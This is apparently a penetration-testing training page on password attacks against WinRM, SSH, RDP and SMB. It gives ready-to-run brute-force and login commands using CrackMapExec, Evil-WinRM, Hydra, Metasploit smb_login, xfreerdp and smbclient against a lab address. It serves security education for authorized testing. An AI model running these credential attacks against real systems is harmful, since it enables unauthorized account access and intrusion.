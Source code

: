 ### WinRM

Windows Remote Management (WinRM) is Microsoft’s implementation of the WS-Management (Web Services Management) protocol. This protocol, built on XML web services and utilizing Simple Object Access Protocol (SOAP), enables remote management of Windows systems. WinRM facilitates communication between Web-Based Enterprise Management (WBEM) and Windows Management Instrumentation (WMI), which can interact with the Distributed Component Object Model (DCOM).
However, for security reasons, WinRM must be activated and configured manually in Windows 10. Therefore, it depends heavily on the environment security in a domain or local network where we want to use WinRM. In most cases, one uses certificates or only specific authentication mechanisms to increase its security. WinRM uses the TCP ports `5985` (`HTTP`) and `5986` (`HTTPS`). A handy tool that we can use for our password attacks is [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the [official documentation](https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/) for this tool to become familiar with it.
#### CrackMapExec

```shell-session
$ sudo apt-get -y install crackmapexec
```
```shell-session
$ crackmapexec smb -h
```
```shell-session
$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```shell-session
$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```
The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

#### Evil-WinRM
#### Installing Evil-WinRM
```shell-session
$ sudo gem install evil-winrm
```
```shell-session
$ evil-winrm -i <target-IP> -u <username> -p <password>
```
```shell-session
$ evil-winrm -i 10.129.42.197 -u user -p password
```
If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.

### SSH

Secure Shell (SSH) is a secure protocol used to remotely execute system commands or transfer files. It operates on TCP port 22 by default and involves three cryptographic methods: symmetric encryption, asymmetric encryption, and hashing.

- **Symmetric Encryption:** Uses the same key for both encryption and decryption. A secure key exchange, such as Diffie-Hellman, ensures the key remains secret. Common algorithms include AES, Blowfish, and 3DES.
  
- **Asymmetric Encryption:** Involves a public and private key pair. Messages encrypted with the public key can only be decrypted by the corresponding private key, securing the connection.

- **Hashing:** Converts data into a unique value to verify message authenticity, using a one-way mathematical algorithm.
#### Hydra - SSH
 ```shell-session
$ hydra -L user.list -P password.list ssh://10.129.42.197
```

### Remote Desktop Protocol (RDP)

Microsoft's Remote Desktop Protocol (RDP) enables remote access to Windows systems over TCP port 3389. RDP allows both users and administrators to connect to and control Windows hosts remotely. The protocol operates between two components: the terminal server (where the work occurs) and the terminal client (which controls the server remotely). RDP supports transferring images, sound, keyboard inputs, and mouse control, as well as printing to local printers and accessing local storage. It functions at the application layer of the IP stack and uses both TCP and UDP for data transmission. While primarily used by Microsoft apps, third-party solutions also utilize RDP.
#### Hydra - RDP
```shell-session
$ hydra -L user.list -P password.list rdp://10.129.42.197
```
#### xFreeRDP
```shell-session
$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
```shell-session
$ xfreerdp /v:10.129.42.197 /u:user /p:password
```


#### Hydra - SMB
```shell-session
$ hydra -L user.list -P password.list smb://10.129.42.197
```
#### Hydra - Error
```shell-session
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
msf6 > use auxiliary/scanner/smb/smb_login

msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run
```
#### CrackMapExec
```shell-session
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
#### Smbclient
```shell-session
$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```